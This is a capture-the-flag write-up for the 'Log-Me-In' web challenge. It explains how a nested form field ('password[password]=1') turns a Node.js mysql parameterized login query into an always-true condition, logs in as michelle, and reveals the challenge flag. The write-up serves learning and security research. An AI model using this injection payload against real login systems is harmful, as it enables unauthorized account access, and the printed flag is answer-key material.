

# Log-Me-In

**Problem Description:**

> Log in to get the flag<br>
>
> [Attachment](./76ee9be320fbda185cc0ab636c9f99d9c8e717c7a3ea8d381b73f676fc9556c979cc44a2b6c125dd049eadd58d8751f53959e52fd94312b497f9c0e0ff4f4bbe)<br>
>
> [https://log-me-in.web.ctfcompetition.com/](https://log-me-in.web.ctfcompetition.com/)

## Solution

The [attachment](./76ee9be320fbda185cc0ab636c9f99d9c8e717c7a3ea8d381b73f676fc9556c979cc44a2b6c125dd049eadd58d8751f53959e52fd94312b497f9c0e0ff4f4bbe) was a zip file as usual, and in it was a single file, [app.js](./app.js). Since the challenge description and title heavily hint us to log in, I decided to take a look at code related to log-in logic in `app.js` before visiting the page:

```js
const mysql = require('mysql');
<snip some stuff>
    
const flagValue = "..."
const targetUser = "michelle"
<snip some stuff>
    
app.use(bodyParser.urlencoded({
  extended: true
}))
<snip some stuff>
    
app.post('/login', (req, res) => {
  const u = req.body['username'];
  const p = req.body['password'];

  const con = DBCon(); // mysql.createConnection(...).connect()

  const sql = 'Select * from users where username = ? and password = ?';
  con.query(sql, [u, p], function(err, qResult) {
    if(err) {
      res.render('login', {error: `Unknown error: ${err}`});
    } else if(qResult.length) {
      const username = qResult[0]['username'];
      let flag;
      if(username.toLowerCase() == targetUser) {
        flag = flagValue
      } else{
        flag = "<span class=text-danger>Only Michelle's account has the flag</span>";
      }
      req.session.username = username
      req.session.flag = flag
      res.redirect('/me');
    } else {
      res.render('login', {error: "Invalid username or password"})
    }
  });
});
```

I noticed the following:

- They use `mysql` 
- They censored `flagValue` :disappointed:
- They use an url-encoded body parser
- If we manage to successfully login as `michelle`, the flag is stored in our cookies

I don't really remember much about the `mysql` package, so I decided to go and take a look at their [README](https://www.npmjs.com/package/mysql). According to the following snippet from the README, it seems like everything is properly escaped:

> In order to avoid SQL Injection attacks, you should always escape any user provided data before using it inside a SQL query. You can do so using the `mysql.escape()`, `connection.escape()` or `pool.escape()` methods:<br>
>
> ...<br>
>
> Alternatively, you can use `?` characters as placeholders for values you would like to have escaped like this:
>
> ```js
> connection.query('SELECT * FROM users WHERE id = ?', [userId], function (error, results, fields) {
>   if (error) throw error;
>   // ...
> });
> ```

However, scrolling down a bit further, I saw the following:

> Different value types are escaped differently, here is how:
>
> - ...
> - Objects are turned into `key = 'val'` pairs for each enumerable property on the object. If the property's value is a function, it is skipped; if the property's value is an object, toString() is called on it and the returned value is used.
>
> This escaping allows you to do neat things like this:
>
> ```js
> var post  = {id: 1, title: 'Hello MySQL'};
> var query = connection.query('INSERT INTO posts SET ?', post, function (error, results, fields) {
>   if (error) throw error;
>   // Neat!
> });
> console.log(query.sql); // INSERT INTO posts SET `id` = 1, `title` = 'Hello MySQL'
> ```

So, I sent the following body to login:

```js
username=michelle&password[password]=1
```

Thus, `req.body['password']` instead of being a string, ends up as an object that looks like the following:

```js
{"password": 1}
```

Therefore, per the above reference, the query that is executed ends up looking like the following:

```sql
Select * from users where username = "michelle" and password = `password` = 1
```

The second part of the condition is trivially true, and so I ended up logging in as `michelle`!



After base64 decoding the cookie session, I saw the flag:

```
CTF{a-premium-effort-deserves-a-premium-flag}
```

